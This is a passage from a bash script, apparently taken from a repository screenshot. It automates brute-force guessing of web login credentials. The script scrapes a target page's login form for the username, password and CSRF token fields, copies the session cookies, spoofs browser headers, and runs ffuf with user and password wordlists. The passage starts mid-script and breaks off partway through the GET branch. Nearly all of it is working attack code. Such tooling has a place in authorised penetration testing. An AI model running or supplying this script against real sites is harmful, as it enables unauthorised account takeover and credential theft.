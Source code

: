 ```bash
elif [[ "$ACTION" =~ ^https?:// ]]; then
    FULL_ACTION="$ACTION"
else
    # Relative path without starting slash
    BASE_URL=$(echo "$URL" | sed 's|\(https\?://.*/\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
fi

# Extract username and password input field names
USERNAME_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | grep -Ei 'user|username|login|email' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')
PASSWORD_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | grep -Ei 'pass|password|pwd' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')

# Set defaults if extraction failed
if [ -z "$USERNAME_FIELD" ]; then USERNAME_FIELD="username"; fi
if [ -z "$PASSWORD_FIELD" ]; then PASSWORD_FIELD="password"; fi

# Extract CSRF token or similar hidden field (e.g., csrfToken, _token, nonce)
CSRF_FIELD=$(echo "$FORM" | grep -oiP '<input[^>]+name="\K[^"]*(csrf|token|nonce)[^"]*' | head -1)
CSRF_VALUE=""
if [ -n "$CSRF_FIELD" ]; then
    CSRF_VALUE=$(echo "$FORM" | grep -oiP "<input[^>]+name=\"$CSRF_FIELD\"[^>]*>" | grep -oiP 'value="\K[^"]+')
fi

# Prepare payload data for fuzzing
DATA="${USERNAME_FIELD}=FUZZ1&${PASSWORD_FIELD}=FUZZ2"
if [ -n "$CSRF_FIELD" ] && [ -n "$CSRF_VALUE" ]; then
    DATA="${CSRF_FIELD}=${CSRF_VALUE}&${DATA}"
fi

# Extract cookies - extract only name=value for each Set-Cookie
COOKIES=$(curl -s -I "$URL" | grep -i '^Set-Cookie:' | sed -E 's/^Set-Cookie: //I')

# Build headers array
HEADERS=(
  -H "Content-Type: application/x-www-form-urlencoded"
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0"
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8"
  -H "Accept-Language: en-US,en;q=0.5"
  -H "Accept-Encoding: gzip, deflate"
  -H "Connection: keep-alive"
  -H "Upgrade-Insecure-Requests: 1"
  -H "Referer: $URL"
)

# Add cookies header if found
if [ -n "$COOKIES" ]; then
    HEADERS+=(-H "Cookie: $COOKIES")
fi

# Run ffuf with constructed parameters
if [[ "$METHOD" == "get" ]]; then
    FFUF_URL="${FULL_ACTION}?${DATA}"
    ffuf -u "$FFUF_URL" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -X GET \
         -ac -c -r \
         -mc 200 \
         "${HEADERS[@]}"
```
